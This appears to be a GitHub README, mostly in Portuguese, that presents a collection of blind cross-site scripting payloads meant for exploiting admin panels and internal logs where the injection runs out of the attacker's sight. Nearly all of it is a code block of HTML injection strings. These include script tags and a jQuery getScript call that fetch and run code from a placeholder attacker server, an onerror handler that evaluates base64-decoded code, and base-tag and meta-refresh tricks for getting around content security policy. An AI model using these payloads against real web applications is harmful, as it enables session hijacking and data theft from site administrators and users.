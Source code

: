 # Blind XSS Payloads
Este repositório contém uma coleção de **payloads para Blind XSS**, úteis para explorar vulnerabilidades onde a injeção ocorre em um ambiente onde a execução do código pode não ser imediatamente visível para o atacante. Blind XSS é frequentemente utilizado em aplicações onde os dados injetados são processados em segundo plano, como painéis administrativos ou logs internos.

## Payloads
```html
<!-- Basic blind XSS payload that loads an external script -->
"><script src="{SERVER}/script.js"></script>


<!-- Image tag -->
"><img src="x" onerror="eval(atob(this.id))" id="{PAYLOAD}">


<!-- In case jQuery is loaded, we can make use of the getScript method -->
"><script>$.getScript("{SERVER}")</script>


<!-- Bypass certain Content Security Policy (CSP) restrictions with a base tag -->
<base href="{SERVER}" />


<!-- Make use of the meta-tag to initiate a redirect -->
<meta http-equiv="refresh" content="0; url={SERVER}" />


## By: IvarSatierf
